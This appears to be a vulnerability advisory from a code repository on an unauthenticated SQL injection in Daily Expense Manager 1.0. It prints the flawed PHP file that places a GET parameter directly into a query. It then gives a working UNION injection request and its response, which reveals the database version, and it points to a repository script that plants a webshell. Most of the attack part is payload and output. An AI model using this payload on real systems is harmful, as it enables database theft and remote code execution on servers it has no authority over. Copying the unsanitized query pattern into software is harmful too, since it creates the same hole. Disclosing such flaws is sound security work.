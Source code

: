 # Daily Expense Manager 1.0 - Unauthenticated SQL Injection
SQL injection in Daily Expense Manager 1.0 allows for injection of SQL queries, resulting in information disclosure and remote code execution.

## Vulnerable Code
File: /Daily-Expense-Manager/readxp.php , Line: 16-23
```
<?php
include("functions.php");

if(isloggedin()==FALSE)
{

}
else
{
  
}
$sid=$_SESSION['id'];


//get search term
$searchTerm = $_GET['term'];
//get matched data from skills table
$query = $conn->query("SELECT * FROM expense WHERE pname like '%$searchTerm%' AND uid='$sid' and isdel='0' group by pname");
while ($row = $query->fetch_assoc()) {
    $data[] = $row['pname'];
}
//return json data
echo json_encode($data);
?>
```
The LoggedIn() function effectively does nothing to prevent unauthenticated users from accessing this file.
The `$SearchTerm` variable is not sanitized and is under control of the attacker.

## Proof-of-concept
The HTTP request below injects a UNION statement to retrieve the version of the underlying database.

HTTP Request
```
GET /Daily-Expense-Manager/readxp.php?term=asd%27%20UNION%20ALL%20SELECT%201,@@version,3,4,5,6--%20- HTTP/1.1
Host: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

HTTP Response:
```
HTTP/1.1 200 OK
Date: Mon, 22 Aug 2022 16:28:11 GMT
Server: Apache/2.4.53 (Debian)
Set-Cookie: PHPSESSID=h7jdflgm9l3d84lruefl5jie3h; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 25
Connection: close
Content-Type: text/html; charset=UTF-8

["10.5.12-MariaDB-1-log"]
```

## Script
A proof-of-concept script written in python 3.6.x is in this repository. Follow instructions to inject a webshell onto the target.

## Links
Vendor Homepage: https://code-projects.org/daily-expense-manager-in-php-with-source-code/

Software Link: https://download-media.code-projects.org/2020/01/DAILY_EXPENSE_MANAGER_IN_PHP_WITH_SOURCE_CODE.zip
